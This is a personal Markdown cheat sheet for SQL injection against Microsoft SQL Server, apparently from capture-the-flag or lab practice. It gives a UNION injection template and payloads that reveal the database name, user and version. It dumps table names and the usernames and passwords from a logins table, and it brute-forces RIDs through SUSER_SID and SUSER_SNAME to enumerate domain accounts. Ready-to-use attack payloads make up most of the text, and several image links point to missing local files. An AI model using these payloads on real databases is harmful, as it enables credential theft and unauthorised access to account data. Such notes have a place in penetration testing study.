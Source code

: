 # mssql

##### general queries

union queries

select all union 1, 2, 3, <inject>, 5-- 

```
db_name()																	"current db"
db_name(n)																	"bruteforce db"
user, system_user, current_user												"running as user"
@@version																	"version"
(SELECT STRING_AGG(name,',') FROM Hub_DB..sysobjects WHERE xtype = 'U')		"dump tables"
```

![image-20200922131425094](/home/manish/.config/Typora/typora-user-images/image-20200922131425094.png)



##### dumping information

```
(SELECT STRING_AGG(name,',') FROM Hub_DB..sysobjects WHERE xtype = 'U')		"dumping table"
(SELECT STRING_AGG(username,',') from logins)								"dumping columns"
(SELECT STRING_AGG(password,',') from logins)								"dumping columns"
```



![image-20200922131859662](/home/manish/.config/Typora/typora-user-images/image-20200922131859662.png)





##### brute_rid

````
master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator'))
````

- removing last 4 bytes will give us identifier we can increment rid to get new users
- also note it is in little endian order

![image-20200922132144302](/home/manish/.config/Typora/typora-user-images/image-20200922132144302.png)



```
SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000) 	"finding username from sid"
```

![image-20200922132708871](/home/manish/.config/Typora/typora-user-images/image-20200922132708871.png)



- writing a script

![image-20200922132948150](mssql.assets/image-20200922132948150.png)